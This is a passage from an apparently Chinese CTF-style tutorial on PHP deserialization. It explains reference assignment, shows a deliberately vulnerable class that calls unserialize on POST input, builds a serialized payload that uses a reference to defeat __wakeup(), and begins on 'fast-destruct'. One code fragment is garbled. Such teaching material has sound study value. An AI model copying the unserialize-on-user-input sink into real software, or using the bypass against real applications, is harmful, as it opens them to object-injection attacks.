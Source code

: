 比如：

     $x=&$a;     $x='123'; } $a='11'; test($a); echo $a;

输出:

123

可以看到这里我们虽然最初$a=’11’，但由于我们通过$x=&$a使两个变量同时指向同一个内存地址了，所以使$x=’123’也导致$a=’123’了。

举个例子：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    <?php  
    class KeyPort{    public $key;  
        public function __destruct(){        $this->key=False;        if(!isset($this->wakeup)||!$this->wakeup){            echo "You get it!";        }    }  
        public function __wakeup(){        $this->wakeup=True;    }  
    }  
    if(isset($_POST['pop'])){  
        @unserialize($_POST['pop']);  
    }

‍

可以看到如果我们想触发echo必须首先满足:

if(!isset($this->wakeup)||!$this->wakeup)

也就是说要么不给wakeup赋值，让它接受不到$this->wakeup，要么控制wakeup为false，但我们注意到KeyPort::__wakeup()，这里使$this->wakeup=True;，我们知道在用unserialize()反序列化字符串时，会先触发__wakeup()，然后再进行反序列化，所以相当于我们刚进行反序列化$this->wakeup就等于True了，这就没办法达到我们控制wake为false的想法了

因此这里的难点其实就是这个wakeup()绕过，我们可以使用上面提到过的引用赋值的方法以此将wakeup和key的值进行引用，让key的值改变的时候也改变wakeup的值即可

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    <?php  
    class KeyPort{    public $key;  
        public function __destruct(){    }  
    }  
    $keyport = new KeyPort();$keyport->key=&$keyport->wakeup;echo serialize($keyport); #O:7:"KeyPort":2:{s:3:"key";N;s:6:"wakeup";R:2;}

![]()

2022年中国工业互联网安全大赛预选赛里有道wakeup题就是运用了这个知识点，具体可以看2022年中国工业互联网安全大赛北京市选拔赛暨全国线上预选赛-
Writeup，这道题用了很巧妙的方法绕过了死亡wakeup最后构造了命令。

fast-destruct

引用一下大佬的解释：

l在PHP中如果单独执行unserialize()函数，则反序列化后得到的生命周期仅限于这个函数执行的生命周期，在执行完unserialize()函数时就会执行__destruct()方法

l而如果将unserialize()函数执行后得到的字符串赋值给了一个变量，则反序列化的对象的生命周期就会变长，会一直到对象被销毁才执行析构方法
